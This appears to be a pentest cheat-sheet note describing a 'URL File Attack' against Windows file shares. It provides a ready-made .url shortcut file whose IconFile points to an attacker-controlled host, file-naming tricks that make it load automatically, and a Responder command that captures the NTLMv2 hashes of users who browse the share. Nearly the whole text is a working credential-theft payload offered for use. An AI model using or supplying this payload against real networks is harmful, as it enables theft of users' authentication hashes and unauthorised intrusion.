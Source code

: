 # URL File Attack

- If we have a user that has all kind of share access we can add this to one of the shares 
  ```
  [InternetShortcut]
  URL=whatever
  WorkingDirectory=whatever
  IconFile=\\ATTACKER-IP\%USERNAME%.icon
  IconIndex=1
  ```
- We have to save it as `"@test.url"` or `"~test.url"`
- We launch responder in our attacking machine `responder -I eth0 -v`
- We get NTLMv2 hashes

## URL File Attack - Resources

- [URL File Attack](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#scf-and-url-file-attack-against-writeable-share)
